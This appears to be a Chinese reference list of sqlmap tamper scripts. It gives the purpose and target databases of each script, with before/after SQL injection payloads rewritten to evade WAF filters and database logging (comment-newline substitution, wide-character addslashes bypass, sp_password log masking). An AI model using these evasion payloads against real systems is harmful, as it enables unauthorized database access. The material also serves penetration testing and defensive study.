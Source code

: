 ```shell
举例：union select 1,2–+ ==> union–HSHjsJh%0Aselect–HhjHSJ%0A1,2–+

space2hash.py
功能：用 [注释符 (#)+ 一个随机字符串 + 一个换行符] 替换控制符
平台：Mysql
举例：union select 1,2–+ ==> union%23HSHjsJh%0Aselect%23HhjHSJ%0A1,2–+

space2morehash.py
功能：用多个 [注释符 (#)+ 一个随机字符串 + 一个换行符] 替换控制符
平台：MySQL >= 5.1.13
举例：union select 1,2–+ ==> union %23 HSHjsJh %0A select %23 HhjHSJ %0A%23 HJHJhj %0A 1,2–+

space2mssqlblank.py
功能：用随机的空白符替换 payload 中的空格
blanks = (‘%01’, ‘%02’, ‘%03’, ‘%04’, ‘%05’, ‘%06’, ‘%07’, ‘%08’, ‘%09’, ‘%0B’, ‘%0C’, ‘%0D’, ‘%0E’, ‘%0F’, ‘%0A’)
平台：Mssql 2000,2005
举例：SELECT id FROM users ==> SELECT%0Eid%0DFROM%07users

space2mssqlhash.py
功能：用 [字符# + 一个换行符] 替换 payload 中的空格
平台：MSSQL、MySQL
举例：union select 1,2–+ ==> union%23%0Aselect%23%0A1,2–+

space2plus.py
功能：用加号 (+) 替换空格
平台：All
举例：SELECT id FROM users ==> SELECT+id+FROM+users

space2randomblank.py
功能：用随机的空白符替换 payload 中的空格
平台：Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
举例：SELECT id FROM users ==> SELECT%0Did%0DFROM%0Ausers

sp_password.py
功能：在 payload 语句后添加 sp_password ，用于迷惑数据库日志（Space ==> sp_password）
平台：Mssql
举例：1 AND 9227=9227–  ==> 1 AND 9227=9227 – sp_password

symboliclogical.py
功能：用 && 替换 and ，用 || 替换 or ，用于这些关键字被过滤的情况
平台：All
举例：
1 and 1=1 ==> 1 %26%26 1=1
1 or 1=1 ==> 1 %7c%7c 1=1

unionalltounion.py
功能：用 union select 替换 union all select
平台：All
举例：union all select 1,2–+ ==> union select 1,2–+

unmagicquotes.py
功能：用宽字符绕过 GPC addslashes
平台：All
举例：1’ and 1=1 ==> 1% df%27 and 1=1–

uppercase.py
功能：将 payload 中的小写字母转为大写格式
平台：Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
举例：insert ==> INSERT

varnish.py
功能：添加一个 HTTP 头 “X-originating-IP” 来绕过 WAF
```